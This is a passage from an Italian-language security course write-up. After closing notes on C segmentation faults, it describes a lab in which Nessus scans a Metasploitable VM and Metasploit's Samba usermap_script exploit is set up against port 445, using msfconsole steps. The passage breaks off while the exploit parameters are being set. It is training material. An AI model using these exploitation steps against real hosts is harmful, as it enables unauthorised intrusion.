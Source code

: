 Accesso non valido:
Tentare di accedere a memoria non allocata provoca il fault.

Puntatori errati:
Puntatori non inizializzati o modificati sono una delle cause principali.

⚠️ Conclusioni
Con queste modifiche, il programma dimostra sia il funzionamento corretto che un errore simulato. Questo progetto aiuta a comprendere meglio i concetti di sicurezza e debugging nei programmi C. 🎯

## 🛡️ TRACCIA GIORNO 4: Sfruttamento di Vulnerabilità sulla Macchina Metasploitable

### 📋 Descrizione
Sulla macchina Metasploitable sono stati individuati diversi servizi in ascolto potenzialmente vulnerabili. Lo scopo di questa traccia è:

- 🖥️ Effettuare una scansione delle vulnerabilità con Nessus.
- ⚙️ Sfruttare la vulnerabilità del servizio Samba attivo sulla porta 445 TCP utilizzando Metasploit.
- ✅ Verificare l'accesso alla macchina compromessa eseguendo il comando `ifconfig` per ottenere l'indirizzo IP della macchina vittima.

### 🔧 Requisiti
- **IP Kali Linux**: 192.168.13.100
- **IP Metasploitable**: 192.168.13.150
- **Porta di ascolto del payload**: 5555
- **Tool utilizzati**: Nessus, MSFConsole (Metasploit)

### 🛠️ Passaggi Eseguiti

#### 1. 🔍 Scansione delle Vulnerabilità con Nessus

- **Avvio del servizio Nessus**:
  ```bash
  sudo systemctl start nessusd
  ```
- **Accesso all'interfaccia web**: `https://localhost:8834`
- **Creazione della scansione**:
  - Tipo: Basic Network Scan
  - Target: 192.168.13.150
- **Esecuzione dello scan**:
  - La scansione ha identificato una vulnerabilità critica sul servizio Samba in ascolto sulla porta 445 TCP.
- **Report allegato**:
  - I dettagli della scansione sono disponibili nel file `nessus_scan_report.html`.

#### 2. 💻 Attacco alla Macchina Metasploitable con Metasploit

- **Avvio di MSFConsole**:
  ```bash
  msfconsole
  ```
- **Ricerca dell'exploit appropriato**:
  ```bash
  search samba
  ```
  - Trovato: `exploit/multi/samba/usermap_script` (indice: 15).
- **Selezione dell'exploit**:
  ```bash
  use 15
  ```
- **Configurazione dei parametri dell'exploit**:
  ```bash
  set RHOSTS 192.168.13.150
  ```